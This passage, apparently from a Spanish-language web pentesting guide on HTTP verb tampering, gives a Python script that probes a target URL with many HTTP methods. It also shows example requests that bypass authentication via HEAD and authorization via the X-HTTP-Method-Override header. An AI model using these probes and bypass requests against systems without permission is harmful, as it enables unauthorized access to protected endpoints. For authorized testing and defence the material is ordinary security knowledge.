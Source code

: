 #### Python Script para Testing Masivo
```python
import requests
import sys

def test_verb_tampering(url, methods):
    results = {}
    
    for method in methods:
        try:
            response = requests.request(method, url, timeout=10)
            results[method] = {
                'status': response.status_code,
                'length': len(response.content),
                'headers': dict(response.headers)
            }
            print(f"{method}: {response.status_code} ({len(response.content)} bytes)")
        except Exception as e:
            results[method] = {'error': str(e)}
    
    return results

# Uso
methods = ['GET', 'POST', 'PUT', 'DELETE', 'HEAD', 'OPTIONS', 'TRACE', 'PATCH', 'PROPFIND']
url = sys.argv[1] if len(sys.argv) > 1 else "http://target.com/admin"
test_verb_tampering(url, methods)
```

---

## Casos de Uso Comunes

### Caso 1: Bypass de Autenticación
```http
# Acceso denegado con GET
GET /admin HTTP/1.1
Host: target.com
# Response: 401 Unauthorized

# Acceso permitido con HEAD
HEAD /admin HTTP/1.1
Host: target.com
# Response: 200 OK
```

### Caso 2: Bypass de Autorización
```http
# Usuario normal no puede eliminar
DELETE /api/users/123 HTTP/1.1
Host: target.com
Authorization: Bearer user_token
# Response: 403 Forbidden

# Pero puede con método alternativo
POST /api/users/123 HTTP/1.1
Host: target.com
X-HTTP-Method-Override: DELETE
Authorization: Bearer user_token
# Response: 200 OK
```
